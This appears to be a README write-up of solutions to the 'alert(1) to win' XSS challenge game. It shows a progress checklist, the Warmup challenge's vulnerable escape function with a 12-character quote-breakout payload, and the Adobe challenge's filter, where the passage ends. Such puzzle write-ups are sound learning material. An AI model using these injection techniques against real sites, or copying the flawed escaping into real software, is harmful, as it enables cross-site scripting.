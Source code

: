 This documents a bit of a journey on [alert(1) to win](https://alf.nu/alert1).
Sometimes it seemed like it was broken. Other times it was pretty fun and worked.

__NOTE:__ If, like me, you're a bit of a FireFox fanboy: It doesn't always work on FF for some reason. Atleast the `Markdown` challenge definitely does not function properly (doesn't register a win), so after much hair pulling I moved onto Chrome for these.

__Done__
- [x] Warmup
- [x] Adobe
- [x] JSON
- [x] Javascript
- [x] Markdown
- [x] DOM
- [x] Callback
- [x] Skandia
- [ ] ~~Template~~ `Broken`
- [x] JSON ][
- [x] Callback ][
- [x] Skandia ][
- [ ] iframe
- [ ] TI(S)M
- [ ] JSON Ⅲ
- [ ] Skandia Ⅲ
- [ ] RFC4627
- [ ] Brunn
- [ ] No
- [ ] K'Z'K
- [ ] K'Z'K
---

## Warmup
### filter:
```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

### Win with:
```
",alert(1),"
```
12 characters


## Adobe
### filter:
```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
